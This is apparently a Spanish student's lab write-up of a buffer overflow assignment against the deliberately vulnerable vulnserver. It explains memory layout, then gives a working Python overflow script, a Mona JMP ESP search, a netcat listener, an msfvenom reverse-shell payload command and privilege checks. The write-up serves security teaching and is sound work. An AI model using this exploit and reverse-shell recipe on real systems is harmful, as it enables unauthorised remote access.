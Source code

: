 ```yaml
---
title: TAREA BUFFER OVERFLOW
date: 2024-11-04 00:00:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [METERPETER, EXPLOIT, SAM]  # TAG names should always be lowercase
---
```


En este post, vamos a explicar los pasos realizados para el desarrollo de la tarea buffer overflow:


# ¿Que es un buffer Overflow?

Un buffer overflow es una vulnerabilidad de seguridad en la que un programa escribe más datos en un búfer de lo que ese bloque puede contener de manera que los datos adicionales se desborden fuera del área de memoria asignada, afectando áreas adyacentes de la memoria del programa.
![alt text](/assets/images/0.png)


<div style="background-color: #f9f9f9; border-left: 6px solid #ccc; padding: 10px;">
  ℹ️ <strong>Información útil:</strong> Tener en cuenta que los programas reservan bloques de memoria para almacenar datos temporales, como texto ingresado por un usuario. Si el programa no controla adecuadamente la cantidad de datos que puede almacenar un búfer, se corre el riesgo de que un atacante envíe más datos de los que puede manejar. Este exceso de datos sobrepasa el límite del búfer y empieza a sobrescribir otros datos en la memoria.
</div>


# Estructura de memoria
Para entender los ataques de desbordamiento de búfer (buffer overflow), primero debemos conocer cómo se estructura la memoria cuando se ejecuta un programa. Cada programa necesita reservar espacio en memoria para almacenar sus datos, y en un programa típico en C, esta memoria se divide en cinco segmentos principales, cada uno con una función específica. A continuación, se describe la estructura de memoria:

1. Segmento Texto: Este segmento contiene el código ejecutable del programa, es decir, las instrucciones que deben ejecutarse. Usualmente, el segmento de texto es de solo lectura para evitar modificaciones accidentales o maliciosas del código. Aquí residen las instrucciones que el procesador ejecutará directamente.

2. Segmento Data: Aquí se almacenan las variables estáticas o globales que han sido inicializadas. Por ejemplo, si definimos una variable static int a = 3, esta será almacenada en el segmento Data. Este segmento asegura que los valores iniciales estén disponibles mientras el programa está en ejecución.

3. Segmento BSS (Block Starting Symbol): Este espacio contiene variables estáticas o globales que no fueron inicializadas explícitamente. El sistema operativo llena este segmento con ceros, por lo que cualquier variable declarada pero no inicializada comenzará con un valor de cero. Por ejemplo, una variable static int b sería almacenada en el segmento BSS con valor inicial cero.

4. Heap: El heap es la sección destinada a la asignación dinámica de memoria, administrada por funciones como malloc, calloc, realloc, y free, todas ellas de la biblioteca estándar <stdlib.h>. Cada vez que el programa necesita más memoria dinámica, el heap se expande hacia arriba en la memoria.

5. Stack: Este segmento se utiliza para almacenar variables locales y datos relacionados con las funciones, como direcciones de retorno y argumentos. El stack sigue una estructura de datos tipo LIFO (Last In, First Out), lo que significa que el último dato en entrar es el primero en salir. En este contexto, el stack crece hacia abajo, lo que significa que las direcciones de memoria más recientes se colocan en la parte baja de la memoria.


# Requerimientos.
### Desarrollo 1
El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

Paso 1: Preparación de Immunity Debugger y el programa vulnerable
1.	Instalar y abrir Immunity Debugger en Windows:
o	Descargar Immunity Debugger 
o	Abrir Immunity Debugger desde el menú de inicio de Windows.
2.	Instalar Mona para Immunity Debugger:
o	Descargar Mona
o	Copiar el archivo mona.py en la carpeta de Immunity Debugger (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands).
3.	Configurar el programa vulnerable (vulnserver):
o	Descargar vulnserver 
o	Se Coloca vulnserver.exe y essfunc.dll en una misma carpeta.
o	Se ejecuta vulnserver.exe en Windows como administrador (clic derecho > “Ejecutar como administrador”).
4.	Adjuntar vulnserver en Immunity Debugger:
o	En Immunity Debugger, se selecciona File > Attach…, elige el proceso vulnserver.exe y haz clic en Attach.
o	Botón de “play” en Immunity Debugger para ejecutar el programa.
________________________________________
Paso 2: Buscar la instrucción JMP ESP con Mona
1.	En Immunity Debugger, abre la consola de comandos de Mona:
2.	Ejecuta el siguiente comando en la consola de Mona para buscar la instrucción JMP ESP en essfunc.dll:
!mona find -s "\xff\xe4" -m essfunc.dll
3.	Mona mostrará una lista de direcciones de memoria donde se encuentra JMP ESP. Estas direcciones serán utilizadas para redirigir la ejecución del exploit hacia el stack.
________________________________________
Paso 3: Configuración del Exploit en Kali Linux
1.	Configura la conexión de red entre la máquina host (Windows) y la máquina virtual (Kali Linux) en modo Bridged o Host-Only.
2.	Crear un script de Python en Kali Linux para el exploit:
o	En Kali, abre un editor de texto y crea un archivo llamado exploit.py:
nano exploit.py
o	Escribe el siguiente código en el archivo, reemplazando la dirección JMP ESP y la IP de Windows:
import socket

# Dirección IP y puerto del servidor vulnerable (Windows Host)
target_ip = "192.168.1.10"  
target_port = 9999

# Dirección de JMP ESP obtenida en Mona
jmp_esp_address = b"\xaf\x11\x50\x62"  

# Payload para desbordamiento de búfer
payload = b"A" * 2003 + jmp_esp_address + b"C" * (3000 - 2003 - 4)

# Crear el socket y enviar el payload
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload + b"\r\n")
    s.close()
    print("Payload enviado!")
except Exception as e:
    print(f"No se pudo conectar al servidor: {e}")
3.	Ejecutar el script en Kali:
o	Guarda el archivo y ejecuta el script en la terminal de Kali:
python3 exploit.py
o	Observa en Immunity Debugger si vulnserver se comporta de manera inusual o se detiene, lo que indicará que el desbordamiento fue exitoso.
________________________________________
Paso 4: Configuración de la Conexión TCP Reversa
Explicación de la Conexión TCP Reversa
Una conexión TCP reversa permite que la máquina víctima (Windows) se conecte de vuelta a la máquina atacante (Kali Linux), estableciendo una shell. Esto suele eludir los firewalls porque es una conexión de salida desde la máquina Windows.
Diagrama del Setup de Laboratorio:

Configuración de Kali para el Listener
1.	En tu VM Kali Linux, abre una terminal y ejecuta:
nc -lvp 4444
o	Esto configurará un listener en Kali en el puerto 4444, esperando conexiones de la máquina Windows.
Modificar el Exploit para la Conexión Reversa
1.	Generar un payload reverso en Kali:
o	Ejecuta el siguiente comando en Kali para crear un shell reverso:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 -f python -b "\x00"
	Reemplaza LHOST con la IP de tu Kali Linux y LPORT con el puerto 4444.
o	Este comando generará un payload en Python.
2.	Actualizar el script exploit.py:
o	Sustituye la parte b"C" * (3000 - 2003 - 4) con el payload generado por msfvenom.
3.	Ejecutar el exploit modificado en Kali:
o	En la terminal de Kali, ejecuta el exploit:
python3 exploit.py
o	Si el exploit es exitoso, tu Windows host se conectará de vuelta a tu Kali Linux, proporcionando una shell en la ventana de nc.
________________________________________


### Desarrollo 2
Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

Una conexión TCP reversa es una técnica utilizada comúnmente en pruebas de seguridad, en la cual el dispositivo objetivo (la máquina en la que quieres obtener acceso) se conecta activamente a una máquina de control (la máquina atacante). Esto es útil para evadir las configuraciones de firewall o NAT (Traducción de Direcciones de Red), ya que muchas veces el tráfico de salida no está tan restringido como el tráfico de entrada.

Explicación de la Conexión TCP Reversa
En una conexión TCP tradicional, el atacante intenta conectarse directamente al puerto de la víctima. Sin embargo, en una conexión TCP reversa, la víctima inicia la conexión hacia el atacante, lo cual permite que esta conexión evada ciertas reglas de seguridad.


### Desarrollo 3
Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).


Paso 5: Verificar los Permisos en la Shell Obtenida
1.	Revisar el usuario activo:
o	En la shell obtenida en Kali, verifica el usuario actual ejecutando:
whoami
2.	Verificar privilegios adicionales:
o	Para obtener más información sobre el usuario y sus permisos, ejecuta:
whoami /priv